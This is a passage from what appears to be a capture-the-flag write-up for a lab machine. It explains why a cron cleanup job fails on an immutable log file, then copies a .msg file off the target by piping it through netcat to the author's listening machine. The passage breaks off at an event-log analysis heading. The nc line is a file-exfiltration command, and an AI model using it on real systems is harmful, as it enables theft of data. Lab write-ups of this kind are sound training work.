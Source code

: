 `analysed_log` is always 0 bytes. There’s actually a `cron` running as www-data that should be writing to it every five minutes before it clears the images and analysis:

```

www-data@investigation:/usr/local/investigation$ crontab -l
...[snip]...
*/5 * * * * date >> /usr/local/investigation/analysed_log && echo "Clearing folders" >> /usr/local/investigation/analysed_log && rm -r /var/www/uploads/* && rm /var/www/html/analysed_images/*

```

The problem is, somehow `analysed_log` got set as immutable:

```

www-data@investigation:/usr/local/investigation$ lsattr analysed_log 
-u--i---------e----- analysed_log

```

So when the `cron` tries to write to it, it fails:

```

www-data@investigation:/usr/local/investigation$ date >> /usr/local/investigation/analysed_log
bash: /usr/local/investigation/analysed_log: Operation not permitted

```

Because the commands are joined with `&&`, once the first one fails, it stops, and the cleanup is broken as well.

I’ll exfil the `.msg` file with `nc`, starting a listener on my machine, and then sending the file back:

```

www-data@investigation:/usr/local/investigation$ cat Windows\ Event\ Logs\ for\ Analysis.msg | nc 10.10.14.6 443

```

It arrives at my machine:

```

oxdf@hacky$ nc -lnvp 443 > 'Windows Event Logs for Analysis.msg'
Listening on 0.0.0.0 443
Connection received on 10.10.11.197 42746

```

I’ll double check that the MD5 hashes of each match.

### Event Log Analysis

#### Extract Message Attachment
